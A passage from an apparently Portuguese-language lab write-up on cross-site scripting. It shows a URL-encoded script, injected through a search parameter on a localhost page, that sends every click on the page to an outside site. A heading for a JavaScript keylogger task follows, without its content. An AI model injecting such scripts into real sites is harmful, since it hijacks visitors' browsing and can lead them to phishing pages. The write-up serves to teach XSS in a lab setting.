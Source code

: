 Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09function%20CaughtClick%28%29%20%7B%0A%09%09window.location%20%3D%20%22https%3A%2F%2Fh41stur.com%22%3B%0A%09%7D%0A%09document.body.addEventListener%28%27click%27%2C%20CaughtClick%2C%20true%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/08/?search=%3Cscript%3E%0A%09function%20CaughtClick%28%29%20%7B%0A%09%09window.location%20%3D%20%22https%3A%2F%2Fh41stur.com%22%3B%0A%09%7D%0A%09document.body.addEventListener%28%27click%27%2C%20CaughtClick%2C%20true%29%3B%0A%3C%2Fscript%3E](http://localhost/08/?search=%3Cscript%3E%0A%09function%20CaughtClick%28%29%20%7B%0A%09%09window.location%20%3D%20%22https%3A%2F%2Fh41stur.com%22%3B%0A%09%7D%0A%09document.body.addEventListener%28%27click%27%2C%20CaughtClick%2C%20true%29%3B%0A%3C%2Fscript%3E)


Ao acessar a URL, qualquer clique dentro da página levará ao redirecionamento.

#### Referências

- [https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener)
### *Task 9 - JavaScript Keylogger*

![Task 9](/img/posts/2023-06-21-beyond-the-alert-24.png)
